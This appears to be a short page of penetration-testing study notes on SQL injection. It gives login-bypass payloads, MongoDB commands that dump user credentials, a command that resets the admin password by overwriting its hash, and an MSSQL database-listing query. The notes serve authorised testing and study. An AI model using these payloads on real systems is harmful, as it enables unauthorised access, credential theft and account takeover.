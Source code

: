 # SQL Injection

## <mark style="color:red;">Authentication bypass</mark>

Here's the classic payload:

```
tom' or 1=1;#
```

If we do encounter errors when our payload is returning multiple rows, we can instruct the query to return a fixed number of records with the LIMIT statement:

```
tom' or 1=1 LIMIT 1;#
```

## <mark style="color:red;">Database analysis</mark>

Thanks 0xsyr0 for the [cheatsheet](https://github.com/0xsyr0/OSCP#sql-injection).

### <mark style="color:blue;">**MongoDB**</mark>

```
mongo "mongodb://localhost:27017"
```

```
> use <DATABASE>;
> show tables;
> show collections;
> db.system.keys.find();
> db.users.find();
> db.getUsers();
> db.getUsers({showCredentials: true});
> db.accounts.find();
> db.accounts.find().pretty();
> use admin;
```

#### <mark style="color:yellow;">**User Password Reset to "12345"**</mark>

```
> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
```

### <mark style="color:blue;">**MSSQL**</mark>

#### <mark style="color:yellow;">**Show Database Content**</mark>

```
1> SELECT name FROM master.sys.databases
2> go
```
